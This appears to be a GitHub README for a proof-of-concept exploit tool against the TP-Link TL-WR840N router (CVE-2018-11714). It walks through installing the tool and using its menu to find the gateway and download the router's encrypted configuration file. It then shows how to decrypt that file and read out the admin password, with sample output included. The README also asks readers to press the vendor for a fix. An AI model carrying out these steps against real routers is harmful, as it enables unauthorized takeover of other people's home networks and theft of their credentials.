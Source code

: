 <img src="img/warning.png" align="right" width="180" height="271" />

# TPLINK TL-WR840N Exploit ![](https://img.shields.io/static/v1?label=CVE%20SCORE&message=10.0&color=red)

This is Proof Of Concept based on CVE-2018-11714 which was found by *Touhid Shaikh*. This Issue is caused by broken session handling on firmware /cgi/ directory. That allow us to download the configuration file and gain access to admin configuration panel.

This issue affect firmware **0.9.1 3.16 v0001.0 Build 170608 Rel.58696n**. And it hasn't been repaired until this time **(0.9.1 4.16 v0001.0 Build 180614 Rel.40494n)**
So, I would like to ask all of you for help to contact the vendor to report this issue so they can fix it as soon as possible.

## CVE Source 
https://blog.securelayer7.net/time-to-disable-tp-link-home-wifi-router/

## Requierments
- curl, bash, dd, openssl, net-tools.

### Linux(Debian, Ubuntu, Kali, etc.)

```
sudo apt-get install curl dd openssl net-tools -y
```
## How to Use
to execute this, make sure you have cloned this repository according to the operating system you are using. is you use linux Use the ./setup script in /src/linux dir. otherwise, if you are using the windows operating system. you can do the same.
```
theace1@linux:~./setup
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

theace1>1
```
### Automatic IP Finder
Or if you have trouble finding the gateway, then you can use automatic mode, so the ip will be filled in automatically.
```
theace1@linux:~./setup -a
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

theace1>2

```

If you have done this, then you will get a encrypted router configuration code that is saved to the conf.bin. the file is saved in the same directory with the setup file. Here is the code that gets from the exploit :
```                                                                                    
HTTP/1.1 200 OK
Content-Type: application/octet-stream; charset=utf-8
Content-Length: 6256
Connection: keep-alive

+�ä�4�f�f1�^?O�vt�^GY&,���h[ڋ�lـ��.�-^Z&�d�DT^]���^Ry�^Tj�3R7B^U�5#B5m�)�=Q���\�^P�-���ĝ
+�^A^W�h�Y��ݠ��%^G����^C���^K�0&r����vj[��x��m�z^R����}֩j0���3��^Q�͎�|�^T}]^A$霤^A��#^T^Z
��^O4���^W��n��l�^X�^S�j�Z��^S^X�;>�^���<^\��L������ԧ𧣩�����^S��|��

```

## How to Decrypt
To decrypt this file easily, you can use a free software provided by [Nirsoft](https://www.nirsoft.net/utils/router_password_recovery.html) called Routerpassview. this is the problem, if you don't use the windows operating system then you can use virtual [ReactOS](https://github.com/reactos/reactos) (virtualbox, vmware, etc.) and run the routerpassview software on the virtual os. So if you are already united with your unix operating system, i was included automatic file decryption in the software based on dd and openssl.

```
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

dvuser>3 

Enter Your Config File Location (Blank for default): conf.bin
Decryption Complete. Now Open tmp.bin file for decrypted file.

```
Then if the decryption is succeed, you can open the decrypted file using text editor eg: nano ,vim ,atom. then search **AdminPwd** string for getting admin username and admin password. Below we can see the password string that contains the word **speeditup123** as the admin password.
***If the admin username is "admin", it will not be displayed in the decrypted file***	

```
...
...
AdminPwd^C^@Espeeditup123
...
...

```
## Author
thanks to all the friends who helped me complete this code. and thanks CVE Author for discovering this vulnerability.
- Code Author [theace1](https://github.com/theace1) [the4ce1@aol.com](mailto:the4ce.aol.com?subject=Hello%20theace%2C&body=I%20have%20an%20important%20comment%20for%20you) & CVE Author [Touhid Shaikh](https://blog.securelayer7.net/author/touhid/)  

